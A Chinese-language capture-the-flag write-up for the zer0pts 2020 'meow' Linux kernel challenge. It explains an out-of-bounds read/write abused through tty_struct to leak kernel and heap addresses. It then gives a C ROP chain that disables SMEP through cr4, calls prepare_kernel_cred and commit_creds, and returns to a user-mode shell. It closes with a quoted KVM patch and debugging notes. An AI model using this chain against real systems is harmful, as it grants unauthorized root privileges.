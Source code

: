 # zeropts2020 meow
## IDA分析

存在一个越界读写，越界范围为0x400，因此可以通过tty_struct结果体进行信息泄漏和权限提升。

## 利用

- 信息泄漏

通过tty_struct→operations来计算内核基地址；

通过tty_struct→[0x4a*8]泄漏堆地址

- 利用

```c
tty_struct->ops = heapbase
heapbase.write = push_rax_pop_rsp //rax此时指向ops；rdi指向tty_struct
heapbase[0] = pop_rsp
heapbase[1] = heapbase[8]
size_t * rop = &fakeops[8];
   *rop++ = pop_rdx;
   *rop++ = 0x6f0;
   *rop++ = mov_cr4_rdx;
   *rop++ = pop_rdi;
   *rop++ = 0;
   *rop++ = prepare_kernel_cred;
   *rop++ = pop_rcx;
   *rop++ = 0;
   *rop++ = mov_rax_rdi;//mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; ret
   *rop++ = commit_creds;

   *rop++ = 0xffffffff812009c4;//swapgs_restore_regs_and_return_to_usermode+0x16

   *rop++ = 0;
   *rop++ = 0;
   *rop++ = (size_t)getShell;
   *rop++ = user_cs;
   *rop++ = user_flags;
   *rop++ = user_sp;
   *rop++ = user_ss;
```

## 问题

ubuntu18的kvm存在bug，去掉`—enable-kvm`可解决

- kvm

    ```c
    [https://lore.kernel.org/lkml/lsq.1556377989.43658463@decadent.org.uk/t/](https://lore.kernel.org/lkml/lsq.1556377989.43658463@decadent.org.uk/t/)

    ```
    *[PATCH 3.16 067/202] KVM: x86: Fix single-step debugging
      2019-04-27 15:13[PATCH 3.16 000/202] 3.16.66-rc1 review Ben Hutchings
                       `(116 preceding siblings ...)
      2019-04-27 15:13 `[PATCH 3.16 184/202] ipc/shm: Fix pid freeing Ben Hutchings
    @ 2019-04-27 15:13 ` Ben Hutchings
      2019-04-27 15:13 `[PATCH 3.16 144/202] alpha: fix page fault handling for r16-r18 targets Ben Hutchings
                       `(84 subsequent siblings)202 siblings, 0 replies; 205+ messages in thread
    From: Ben Hutchings @ 2019-04-27 15:13 UTC (permalink /raw)
      To: linux-kernel, stable;+Cc: akpm, Denis Kirjanov, Paolo Bonzini, Alexander Popov

    3.16.66-rc1 review patch.  If anyone has any objections, please let me know.

    ------------------

    From: Alexander Popov <alex.popov@linux.com>

    commit 5cc244a20b86090c087073c124284381cdf47234 upstream.

    The single-step debugging of KVM guests on x86 is broken: if we run
    gdb 'stepi' command at the breakpoint when the guest interrupts are
    enabled, RIP always jumps to native_apic_mem_write(). Then other
    nasty effects follow.

    Long investigation showed that on Jun 7, 2017 the
    commit c8401dda2f0a00cd25c0 ("KVM: x86: fix singlestepping over syscall")
    introduced the kvm_run.debug corruption: kvm_vcpu_do_singlestep() can
    be called without X86_EFLAGS_TF set.

    Let's fix it. Please consider that for -stable.

    Signed-off-by: Alexander Popov <alex.popov@linux.com>
    Fixes: c8401dda2f0a00cd25c0 ("KVM: x86: fix singlestepping over syscall")
    Signed-off-by: Paolo Bonzini <pbonzini@redhat.com>
    Signed-off-by: Ben Hutchings <ben@decadent.org.uk>
    ---
    arch/x86/kvm/x86.c | 3 +--
     1 file changed, 1 insertion(+), 2 deletions(-)

    --- a/arch/x86/kvm/x86.c
    +++ b/arch/x86/kvm/x86.c
    @@ -5400,8 +5400,7 @@ restart:
     		kvm_make_request(KVM_REQ_EVENT, vcpu);
     		vcpu->arch.emulate_regs_need_sync_to_vcpu = false;
     		kvm_rip_write(vcpu, ctxt->eip);
    -		if (r == EMULATE_DONE &&
    -		    (ctxt->tf || (vcpu->guest_debug & KVM_GUESTDBG_SINGLESTEP)))
    +		if (r == EMULATE_DONE && ctxt->tf)
     			kvm_vcpu_do_singlestep(vcpu, &r);
     		kvm_set_rflags(vcpu, ctxt->eflags);
     	} else
    ```
    ```

在`push`的指令用`si`代替`ni`，否则`ni`类似于`c`的效果

- [ ]  其他利用方法
- [ ]  将tty_struct整理为lib

## 收获

tty_struct[0x4a]能够泄漏堆地址
